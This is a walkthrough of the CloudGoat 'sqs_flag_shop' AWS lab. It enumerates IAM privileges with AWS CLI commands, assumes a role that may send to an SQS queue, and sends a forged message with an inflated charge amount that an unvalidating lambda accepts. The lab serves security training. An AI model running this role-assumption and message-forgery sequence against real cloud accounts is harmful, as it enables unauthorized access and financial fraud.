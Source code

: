   
1. The attacker accesses the web page and identifies the features first

    [ page ] → what can do  
    /        → User can buy items.  
    /receipt → User can see the purchase.  
    /charge  → User can charge the cash.  
  
---

2. The attacker checks the privileges it has
    ```bash
    # Configure AWS CLI settings for a specific profile, allowing you to set credentials
    aws configure --profile [profile_name]
   
    # Get the ARN & full name of user.
    aws --profile [profile_name] sts get-caller-identity
   
    # List policies attached to user.
    aws --profile [profile_name] iam list-user-policies --user-name [user_name]
   
    # View permissions granted to inline policies.
    aws --profile [profile_name] iam get-user-policy --user-name [user_name] --policy-name [policy_name]
    
   # View inline policies granted to role.
    aws --profile [profile_name] iam list-role-policies --role-name [role_name]
    
   # View permissions granted to inline policies.
    aws --profile [profile_name] iam get-role-policy --role-name [role_name] --policy-name [policy_name]
    ```  
    ※ Attacker finds that they have assume-role privileges for a particular role.  
    ※ Attacker looks for clues about how to attack using this privilege.
   
---  

3. Find the web source code. By analyzing the source code, the attacker checks the format of message sent to the SQS service
  
    ※ The website has a github address exposed as an annotation.  
    → https://github.com/RhinoSecurityLabs/cloudgoat/scenarios/sqs_flag_shop/terraform/source/flask
  
    < Code Analysis Results >  
  -When charging the cash, a message is sent to the SQS service.  
  -The lambda function does not verify the received message.  
  -The message format is `{"charge_amount" : cash}`  
  
    ※ Attacker plans to forge the cache and send message to the SQS service.  
  
---  

4. Assume the the sending message role about SQS service
    ```bash
    # Get credentials for the role about sending messages to SQS queue.
    aws --profile [profile_user] sts assume-role --role-arn [role_arn] --role-session-name [whatever_you_want_here]
    
   # Configure AWS profile.
    aws configure --profile [assumed_profile_name]
    
   # Set the session token to ~/.aws/credentials.
    echo "aws_session_token = {token}" >> ~/.aws/credentials
    ```  
  
---  
  
5. The attacker, who possesses the necessary permissions, sends a forged message to the SQS service queue  
    ```bash
    # Get queue-url of SQS service
    aws --profile [assumed_profile_name] sqs get-queue-url --queue-name cash_charging_queue
    
   # Send a forged message to the SQS service queue
    aws --profile [assumed_profile_name] sqs send-message --queue-url [queue_url] --message-body '{"charge_amount": 100000000}'
    ```  
  
---  
  
6. Check the changed assets, purchase FLAG and check the secret-string
